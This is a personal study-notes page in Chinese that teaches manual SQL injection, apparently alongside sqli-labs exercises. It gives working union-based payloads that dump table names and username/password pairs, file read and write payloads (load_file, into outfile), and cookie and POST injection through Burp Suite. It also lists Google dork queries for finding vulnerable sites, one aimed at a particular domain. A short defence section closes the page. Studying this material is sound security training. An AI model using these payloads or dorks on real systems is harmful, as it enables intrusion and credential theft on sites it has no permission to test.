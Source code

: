 ## SQL injection
![](..\assets\img\sql-injection\20220804-161808.jpg)

（也可在用戶可輸入的地方，如form，加入非法SQL語句，從而進行非法SQL操作）

數據庫服務器層級關係：
服務器裡面
	多個數據庫
		多個數據表
			多個行和列
				*數據*

一層一層拿到最底層的數據

系統庫
	•	提供獲取數據庫元數據的方式
	•	猶如數據庫的身份證
	•	有4個：Information_schema, Performance_schema, mysql, sys

SQL語句回顧
查詢當前數據庫服務器所有的數據庫
show databases;
![](..\assets\img\sql-injection\20220804-161808-1.jpg)
use information_schema;
show tables;
![](..\assets\img\sql-injection\20220804-161808-2.jpg)
![](..\assets\img\sql-injection\20220804-161808-3.jpg)

union 查詢
select * from t1 where is=-1 union select * from t1 where pass=111;
❗️即使前面查不到也不影響出現後面的結果
❗️前面與後面的語句return的column要一致

order by
用來查詢表的column數目
# 以第一個column作排序
select * from t1 order by 1
# 以第二個column作排序
select * from t1 order by 2
…
#如果打到5報錯
select * from t1 order by 5
❗️表示只有4個column

Information_schema庫
	⁃	是信息數據庫
	⁃	Web滲透過程中作用很大
	⁃	❗️schemata表、tables表、columns表
![](..\assets\img\sql-injection\20220804-161808-4.jpg)
use information_schema;
select * from SCHEMATA;
![](..\assets\img\sql-injection\20220804-161808-5.jpg)
select table_name from TABLES;
![](..\assets\img\sql-injection\20220804-161808-6.jpg)
select column_name from COLUMNS;

![](..\assets\img\sql-injection\20220804-161808-7.jpg)
![](..\assets\img\sql-injection\20220804-161808-8.jpg)

SQL注入
數據庫類型：
	1.	MySQL
	2.	MSSQL
	3.	Oracle
	4.	Access
	5.	其他
前端頁面提交方式：
	1.	GET
	2.	POST
	3.	COOKIE
	4.	REQUEST
	5.	HTTP header
	6.	其他
數據類型：
	1.	數字型
	2.	字符型
	3.	其他
查詢方法：
	1.	select
	2.	insert
	3.	delete
	4.	update
	5.	order by

瀏覽器數據提交
Get: 利用url, 速度快, 不敏感的數據
 (IE數據長度限制2083bits)
Post: 利用server, 更安全 數據量更大

手工注入：
	1.	❗️判斷有無注入點 （數字型方法如下）
	•	?id=1 and 1=1
	⁃	數據正常顯示 有注入點
	•	?id=1 and 1=2
	⁃	報錯 有注入點, 沒報錯 沒注入點
	2.	猜解列名數量 order by
	•	order by 1
	•	order by 2
	•	order by 3
	•	order by 4 (error)
	•	總共有3 columns
	3.	報錯，判斷回顯點 union
	•	?id=-1 union select 1,2,3
	![](..\assets\img\sql-injection\20220804-161808-9.jpg)
	4.	信息收集
	‼️數據庫版本 version()
	高版本：5.0以上 有系統庫 information_schema
	低版本：5.0以下

‼️當前數據庫名 database()

	5.	使用對應SQL進行注入
在url填寫： ‼️無需分號

查詢當前數據庫內的table名
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
![](..\assets\img\sql-injection\20220804-161808-10.jpg)
可見有‼️users這個table

查詢users的column名
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273
‼️分號裡面用0x加16進制 (users)
‼️=符號前後沒有空格
![](..\assets\img\sql-injection\20220804-161808-11.jpg)

查詢users表內數據
?id=-1 union select 1,(select group_concat(username,0x3a,password) from users),3
❕0x3a是冒號
![](..\assets\img\sql-injection\20220804-161808-12.jpg)

SQL注入之高權限注入
最高權限：root
多個網站共享一個database server
![](..\assets\img\sql-injection\20220804-161808-13.jpg)
假如A出現漏洞，可以利用它去訪問在同一個伺服器上的數據庫B（前提是要有高權限)

![](..\assets\img\sql-injection\20220804-161808-14.jpg)

‼️顯示當前用戶
?id=-1 union select 1,user(),3
用戶root@localhost

MySQL權限
mysql中存在4个控制權限的表
分别為user表，db表，tables_priv表，columns_priv表

user: 記錄user權限
db: 記錄對db的操作權限
tables_priv: 記錄對表的操作權限
columns_priv: 記錄對column的操作權限

最高權限的是user表

mysql權限表的驗證過程為
	先從user表中的Host,User,Password這3個字段中判斷連接的ip、用戶名、密碼是否存在，存在則通過驗證。
	通過身份認證後，進行權限分配，
	按照user，db，tables_priv，columns_priv的順序進行驗證。
	即先檢查全局權限表user，如果user中對應的權限為Y，則此用戶對所有數據庫的權限都為Y，
	將不再檢查db, tables_priv, columns_priv；如果為N，則到db表中檢查此用戶對應的具體數據庫，
	並得到db中為Y的權限；如果db中為N，則檢查tables_priv中此數據庫對應的具體表，取得表中的權限Y，以此類推。

查看mysql 有哪些用户
mysql> select user,host from mysql.user;

查看用户對應權限
select * from user where user='root' and host='localhost'\G; 
所有權限都是Y ，就是甚麼權限都有

\G代表將row垂直表示

創建 mysql 用戶
 有兩種方式創建MySQL授權用戶
1️⃣執行create user/grant命令（推薦方式）
 CREATE USER 'user'@'localhost' IDENTIFIED BY 'password';
2️⃣通過insert語句直接操作MySQL系統權限表
❗️新創建用戶沒有任何權限
💡進入root帳號給予user權限
	⁃	GRANT ALL PRIVILEGES ON *.* TO 'user'@'localhost' WITH GRANT OPTION;

![](..\assets\img\sql-injection\20220804-161808-15.jpg)

文件讀寫注入
高版本的MYSQL添加了一個新的特性secure_file_priv，該選項限制了mysql導出文件的權限

可在以下文件貼上secure_file_priv=‘’
❗️默認沒有secure_file_priv
❗️phpstudy重啟連接才會生效

Win my.ini
![](..\assets\img\sql-injection\20220804-161808-16.jpg)
Linux my.cnf
![](..\assets\img\sql-injection\20220804-161808-17.jpg)

cmd mysql> show global variables like ‘%secure%’
設定前
![](..\assets\img\sql-injection\20220804-161808-18.jpg)
設定後
![](..\assets\img\sql-injection\20220804-161808-19.jpg)


代表讀寫無限制 secure_file_priv=
代表不能進行讀寫secure_file_priv=NULL

設定後可以讀取文檔
select load_file('C:/phpstudy_pro/Extensions/MySQL5.7.26/my.ini');
❗️斜桿，單引號或使用0x16進制
![](..\assets\img\sql-injection\20220804-161808-20.jpg)

‼️難點在於獲取文件路徑
常見路徑
![](..\assets\img\sql-injection\20220804-161808-21.jpg)

路徑獲取方式：
報錯
在google搜尋inurl:edu.mo warning
![](..\assets\img\sql-injection\20220804-161808-22.jpg)
遺漏文件 可以看到php配置
在google搜尋inurl:phpinfo.php
![](..\assets\img\sql-injection\20220804-161808-23.jpg)

SQL文件注入
?id=-1 union select 'hack','your','brain' into outfile 'c:/yo.txt'--+
‼️--+用作注釋之後sql字段

SQL基礎防禦
1️⃣魔術引號 或 addslashes()
	⁃	在單引號 雙引號 反斜線 與 NUL等加上反斜號，使SQL注入無效
	⁃	在❗️php.ini設定magic_quotes_gpc =on
	⁃	缺點：或會影響開發

2️⃣is_int($id)
	⁃	在後端程式加上檢查是否integer語法
	⁃	防止注入string

3️⃣關鍵字過濾
	⁃	利用str_replace()將select replace掉

4️⃣WAF軟件防護

SQL注入之數據類型
	1.	數字型數據
	•	?id=1 and 1=1
	⁃	數據正常顯示 有注入點
	•	?id=1 and 1=2
	⁃	報錯 有注入點, 沒報錯 沒注入點
	![](..\assets\img\sql-injection\20220804-161809.jpg)

	2.	字符型數據
![](..\assets\img\sql-injection\20220804-161809-1.jpg)
id被代入為'1 and 1=2'，SQL會過濾1之後的字符，因此會正常顯示id=1的數據不會報錯，無法判斷是否有注入點
‼️字符型判斷方法：
?id=1' 加入單/雙引號，報錯 有注入點

💡google搜尋inurl: php?id=

	3.	搜索型數據
like 模糊查詢
% % 通配符
![](..\assets\img\sql-injection\20220804-161809-2.jpg)
‼️方法：
?username=y%’ or 1=1#
![](..\assets\img\sql-injection\20220804-161809-3.jpg)
💡or 1=1的功效：顯示所有結果

	4.	其他型數據
有其他閉合符號 ‘ “ ) } %

SQL注入之數據提交方式
	1.	Get方式注入
get注入方式比較常見，主要是通過url中傳輸數據到後台，帶入到數據庫中去執行，可利用聯合注入方式直接注入
場景
	⁃	數據不敏感
	⁃	安全性不高
	⁃	長度有限2kb
	⁃	速度非常快

	2.	Post方注入 (sqli-labs Less-11)
利用BurpSuite抓包進行重放修改內容進行，和get差別是需要借助抓包工具進行測試，返回結果主要為代碼，也可轉化為網頁顯示
場景
	⁃	安全性高
	⁃	長度不限
	⁃	速度不快

![](..\assets\img\sql-injection\20220804-161809-4.jpg)
抓包工具可以顯示post的parameter

	3.	Cookie提交 (sqli-labs Less-20)
在php中獲取cookie值
$c=$_COOKIE['s'];

好處：能繞過POST的check_input

利用Burp Suite修改header值，在此進行SQL injection
![](..\assets\img\sql-injection\20220804-161809-5.jpg)
在header中加入Cookie: 參數=2222

Google chrome的開發人員工作也能查詢cookie值
![](..\assets\img\sql-injection\20220804-161809-6.jpg)

	4.	Request式注入
![](..\assets\img\sql-injection\20220804-161809-7.jpg)

Server函數
利用Server function獲取多項訊息
![](..\assets\img\sql-injection\20220804-161809-8.jpg)